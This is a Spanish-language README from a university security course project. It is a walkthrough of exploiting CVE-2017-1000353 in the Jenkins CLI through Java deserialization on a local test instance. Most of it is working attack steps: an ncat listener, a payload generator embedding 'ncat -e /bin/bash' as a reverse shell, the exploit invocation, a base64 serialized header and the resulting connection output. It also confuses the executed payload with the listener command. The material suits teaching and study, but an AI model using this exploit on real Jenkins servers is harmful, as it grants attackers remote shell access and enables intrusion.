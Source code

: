 # Seguridad informatica - UTN

## Trabajo práctico 2° Cuatrimestre 2018 - Grupo 2

## Integrantes

- Alejandro Gonzalez
- Facundo Lavagnino
- Tomás Altrui

# Exploit para CVE-2017-1000353 - Jenkins

## Herramientas necesarias

- Java
- Ncat
- Python 3

## Preparación

 1. Clonar el repositorio (e ingresar en el):
    ```$ git clone https://github.com/AltTomas/siutn-tp-grupo-2-2018.git && cd situn-tp-grupo-2-2018```

 2. Iniciar Jenkins:
    ```$ java -jar jenkins_2.45.war```

3. Ingresar a ```localhost:8080/cli o 127.0.0.1:8080/cli``` para asegurarse que inició correctamente (Solo ingresar la clave que pide al iniciar, no es necesario configurar plugins)
4. Iniciar una sesión de Ncat para escuchar en el puerto 4444 (o el que deseen):
```ncat -v -l -p 4444```

5. Crear el objeto de serialización de Java:
 ```bash generate_java_serialization_data.sh "ncat -e /bin/bash 127.0.0.1 4444"```

## Ejecución del exploit y explicación

Para ejecutar el exploit basta con el siguiente comando:
```python exploit.py http://127.0.0.1:8080/cli java_serialization_data.bin```

Este script de Python inicia una sesión con el CLI de Jenkins realizando un POST al CLI en modo "download":
```
download - Starting new HTTP connection (1): 127.0.0.1:8080
download - http://127.0.0.1:8080 "POST /cli HTTP/1.1" 200 None
```

Luego realiza un "upload" con el payload que contiene como head el objeto serializado en base 64 que especifica la funcionalidad del cliente
```'<===[JENKINS REMOTING CAPACITY]===>rO0ABXNyABpodWRzb24ucmVtb3RpbmcuQ2FwYWJpbGl0eQAAAAAAAAABAgABSgAEbWFza3hwAAAAAAAAAH4='```
y el objeto de serialización de Java que contiene nuestro código a ejecutar, que en este caso es: ```ncat -v -l -p 4444```

En caso que nuestro exploit se haya ejecutado de manera satisfactoria, deberíamos ver en la consola que levantamos nuestra sesión de Ncat un mensaje de conexión:

```
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:57496.
```
